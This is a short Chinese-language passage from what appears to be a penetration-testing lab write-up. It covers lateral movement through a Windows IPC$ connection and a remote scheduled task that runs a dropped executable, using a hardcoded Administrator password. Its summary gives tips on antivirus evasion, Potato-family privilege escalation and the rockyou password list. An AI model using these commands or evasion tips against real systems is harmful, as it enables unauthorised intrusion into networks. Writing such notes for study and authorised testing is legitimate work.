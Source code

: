 ## 横向移动

1、开启 ipc 连接

```
net use \\10.10.1.129\ipc$ /user:Administrator P@55w0rd!
```

<img src=".\图片\Snipaste_2023-05-19_22-19-43.png" alt="Snipaste_2023-05-19_22-19-43"  />

2、复制文件

<img src=".\图片\Snipaste_2023-05-19_22-33-14.png" alt="Snipaste_2023-05-19_22-33-14"  />

3、执行计划任务

```
SCHTASKS/Create /S 12SERVER-DATA2.ack123.com /U Administrator /P "P@55w0rd!"/SC ONCE /ST 17:32:01 /TN 777 /TR c:\qq.exe /RU Administrator
```



补充：后续操作也可以使用哈希传递和票据传递，就不演示了



# 总结

免杀时最好自己写，不是说网上工具不好，而是它们的指纹都被列入杀软了

在 windows 里好用土豆家族的提取

360卫士的行为拦截很强，mssql 的 xp_cmdshell 被拦截得死死的

rockyou.txt 字典很好用：   

```http
https://github.com/zacheller/rockyou/blob/master/rockyou.txt.tar.gz
```


